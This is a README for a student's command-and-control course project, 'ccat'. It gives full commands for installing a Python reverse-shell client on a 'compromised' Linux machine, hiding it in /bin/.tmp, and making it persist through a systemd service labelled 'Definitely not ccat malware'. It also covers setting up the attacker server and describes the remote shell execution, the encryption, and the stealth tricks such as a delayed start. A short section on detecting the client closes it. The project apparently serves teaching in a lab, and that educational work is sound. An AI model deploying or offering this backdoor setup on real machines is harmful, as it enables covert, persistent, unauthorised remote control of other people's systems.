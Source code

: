 # C2 Project Submission
## Installation
### Client (Compromised)
On the client (compromised week 4) machine, run the following as root:
```shell
# Install pip
curl -L https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python get-pip.py
# Install necessary packages
pip install pycryptodome
# Save scripts in hidden directory
cd /bin && mkdir .tmp && cd .tmp
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
echo "python /bin/.tmp/client.py" > ccat.sh
# Add to bootup
vi /etc/systemd/system/ccat.service
```
in the vi editor, paste the following:
```
[Unit]
Description=Definitely not ccat malware

Wants=network.target
After=network-online.target

[Service]
Type=simple
ExecStart=/bin/.tmp/ccat.sh
Restart=on-failure
RestartSec=30
KillMode=process
```
and then in the shell again, run
```shell
chmod 640 /etc/systemd/system/ccat.service
sudo systemctl daemon-reload  # You can use user/pass gg for root
sudo systemctl enable ccat  # Have ccat service run at launch!
```

### Server (Attacker)
And likewise, run the following on the attacking machine:
```shell
# Install necessary packages
pip install pycryptodome
# Save scripts
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```

## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process (`python client.py`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :)

Alternatively, after setting up configuations, you can just run
`sudo systemctl start ccat`.

One way of figuring out the server's IP is by running `curl https://ipinfo.io/ip`
from the attacking (server) machine (unless you're just running it as the hostOS,
which is normally 10.0.0.2 for VirtualBox).

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1]

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots
ccat is safed to disk, so it'll remain after reboots. It's added to `systmctl`
to run during startup, as well (see client installation instructions). So it'll
run after the system boots up again.

### Configuration for where to get commands
See configuration.py.

### Authenticate communication
Using the pycryptodome library, I used RSA (asymmetric) encryption to encrypt
communication between the server and client. If there were more clients, I'd
make a file like
```json
{
    "0.0.0.3": "password1",
    "0.0.0.4": "password2",
    "0.0.0.5": "password3",
    "0.0.0.6": "password4"
}
```
for the server to know which password to send to each client. Each client would
have a hardcoded password to look for to grant access to the server.

### Attempt to hide itself
By saving the code in a directory starting with ".", users won't see the
directory in a GUI or with `ls` (unless they run it with the `-a` flag).

I also have the client script sleep for ten seconds before running so that
there's no immediate effect that the user could look for (if this is annoying
when grading, comment out the line with "UNCOMMENT IF THIS TAKES TOO LONG WHILE
GRADING" next to it in client.py).

I initially tried to do this with process injection (you can look at my GitHub
commits for proof), but I found that using Cython to get a C version of the
python code and then trying to link it myself was too difficult. I was so close,
if not for that darned .so shared object file. :(

## Extra Credit: Detecting ccat
```shell
ps -U root -u root u | grep client.py
```
If this prints something (other than the grep process), ccat is running! If not,
you're safe.

Some other ideas include
1. Looking at network traffic with Wireshark
2. Recursively searching the entire filesystem for ccat (via `find -R client.py` or something)
3. Look at the system journal via `journalctl`

## Resources & Credit
I used [this](https://medium.com/@songchai.d01/how-to-create-a-reverse-shell-in-python-41fe75d88521)
Medium article to learn how to use the sockets, subprocess, and sys python libraries for building a
reverse shell. I found similar resources [here](https://medium.com/geekculture/breaking-down-a-python-reverse-shell-one-liner-752041733e5f)
and [here](https://stackoverflow.com/questions/28411960/execute-a-command-on-remote-machine-in-python/28413657#28413657),
as well as the [official docs](https://docs.python.org/2.6/library/socket.html).

